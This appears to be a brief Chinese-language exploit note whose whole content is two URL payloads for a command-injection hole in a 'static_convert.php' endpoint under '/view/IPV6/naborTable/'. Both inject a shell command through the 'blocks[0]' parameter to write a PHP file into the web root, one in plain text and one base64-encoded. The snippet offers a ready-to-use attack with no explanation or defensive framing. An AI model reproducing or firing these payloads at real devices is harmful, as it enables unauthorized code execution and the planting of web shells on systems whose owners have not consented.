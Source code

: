 一句话
`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20%27%3C?php%20phpinfo();?%3E%27%20%3E%3E%20/var/www/html/1.php%0a`


Base64 版
`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20PD9waHAgcGhwaW5mbygpOz8+%20%7Cbase64%20-d%20%3E%3E%20/var/www/html/1.php%0a`
